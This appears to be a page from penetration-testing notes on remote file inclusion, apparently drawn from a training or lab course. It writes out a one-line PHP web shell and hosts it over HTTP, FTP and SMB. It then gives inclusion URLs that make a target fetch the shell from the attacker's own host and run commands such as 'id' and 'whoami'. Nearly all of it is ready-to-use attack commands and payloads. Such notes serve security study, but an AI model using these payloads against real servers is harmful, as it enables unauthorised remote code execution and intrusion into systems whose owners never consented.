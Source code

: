 ```bash
echo '<?php system($_GET["cmd"]); ?>' > shell.php
```
###### Step 2: Host it:

```bash
sudo python3 -m http.server 80
```
###### Step 3: Include it:

```
http://<SERVER_IP>:<PORT>/index.php?language=http://<OUR_IP>/shell.php&cmd=id
```
###  2. FTP Server
###### If HTTP is blocked, use FTP:

```bash
sudo python -m pyftpdlib -p 21
```
###### Include via:

```
?language=ftp://<OUR_IP>/shell.php&cmd=id
```
###### Auth format if needed:

```
ftp://user:pass@<OUR_IP>/shell.php
```
###  3. SMB (Windows Targets)
###### SMB works even if `allow_url_include` is off, as Windows treats remote UNC paths as local files.
###### Start SMB server:

```bash
impacket-smbserver -smb2support share $(pwd)
```
###### Include via UNC path:

```
?language=\\<OUR_IP>\share\shell.php&cmd=whoami
```

> ⚠️ SMB-based inclusion works best in local networks due to Windows firewall defaults.
### ✅ Summary

RFI allows remote script execution when `allow_url_include` is enabled or via SMB on Windows.  
Supports multiple protocols:

- `http://`
- `ftp://`
- `\\IP\share` (UNC/SMB)
# LFI and File Uploads
